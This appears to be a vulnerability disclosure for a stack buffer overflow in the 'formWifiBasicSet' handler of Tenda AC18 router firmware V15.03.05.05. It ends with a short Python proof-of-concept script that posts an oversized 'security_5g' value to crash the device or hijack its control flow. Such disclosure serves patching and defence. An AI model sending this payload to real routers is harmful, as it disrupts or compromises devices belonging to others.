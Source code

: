 ## Overview



- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html



## Affected version

V15.03.05.05



## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the "formWifiBasicSet" function. The "src" variable receives the "security_5g" parameter from a POST request and is later assigned to the "dest" variable, which is fixed at 256 bytes. However, since the user can control the input of "security_5g", the statement "strcpy(dest, src);" can cause a buffer overflow. The user-provided "security_5g" can exceed the capacity of the "dest" array, triggering this security vulnerability.



![image-20240304212400706](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304212400706.png)

![image-20240304211549237](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304211549237.png)

![image-20240304211639911](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304211639911.png)



## PoC

```python
import requests
from pwn import *

url = 'http://192.168.84.101/goform/WifiBasicSet'
payload = b'a' * 500 + p32(0xdeadbeef)
data = {'security_5g':payload, 'hideSsid':'1', 'ssid':'1', 'security':'1', 'wrlPwd':'1', 'hideSsid_5g':'1', 'ssid_5g':'1', 'wrlPwd_5g': '1'}

requests.post(url, data=data)
```



![image-20240304213056127](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304213056127.png)

